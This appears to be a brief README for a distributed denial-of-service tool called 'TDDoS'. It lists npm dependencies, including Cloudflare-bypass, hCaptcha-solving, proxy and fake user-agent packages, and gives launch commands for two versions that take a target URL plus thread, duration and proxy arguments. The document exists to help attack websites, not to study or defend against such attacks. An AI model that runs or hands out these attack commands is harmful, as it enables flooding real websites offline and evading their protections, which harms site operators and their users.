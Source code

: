 # TDDoS
V1:
npm i requests
npm i https-proxy-agent
npm i crypto-random-string
npm i events
npm i fs
npm i net
npm i cloudscraper
npm i request
npm i hcaptcha-solver
npm i randomstring
npm i cluster
npm i cloudflare-bypasser
npm i axios
npm i fake-useragent
: cd TDDoSV1

: go run tddos.go -site url

V2: cd TDDoSV2

  : node Script.js url 10000 5 proxy
